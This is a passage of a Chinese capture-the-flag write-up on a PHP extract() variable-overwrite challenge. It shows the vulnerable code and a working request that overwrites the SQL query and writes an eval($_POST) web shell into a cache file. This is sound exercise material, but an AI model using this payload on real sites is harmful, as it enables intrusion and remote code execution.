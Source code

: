然后访问：`/cache/cb5e100e5a9a3e7f6d1fd97512215282.php`





## 489-extract变量覆盖

```php
if($action=='check'){
	$sql = "select id from user where username = '".md5($username)."' and password='".md5($password)."' order by id limit 1";
	extract($_GET);
	$user=db::select_one($sql);
	if($user){
		templateUtil::render('index',array('username'=>$username));
	}else{
		templateUtil::render('error');
	}
}
```

看到多了个`extract($_GET);`，那么就可以控制$sql变量

看到`templateUtil::render('error');`，不会传入内容了，就写不了

488利用error写马的做法就不行了



但是因为`$sql`可控，咱们就可以控制sql语句的查询结果，

只要sql语句执行成功就可以进第一个判断，利用

`templateUtil::render('index',array('username'=>$username));`写马



综上，`file_put_contents($filename, $content);`中:

1. $filename为：`cache/md5(index).php`

   ![](https://s2.loli.net/2022/03/09/vN9GWh34toaXpPu.png)

2. $content为：`username`传入的值

3. $sql为：变量覆盖的sql语句

payload:

```
/index.php?action=check&username=<?php eval($_POST[1]);?>&password=1&sql=select 1;
```

然后访问：`/cache/6a992d5529f459a44fee58c733255e86.php`

(如果搞错了可以用给的`clear`来清除缓存`cache`：`/index.php?action=clear`)



## 490
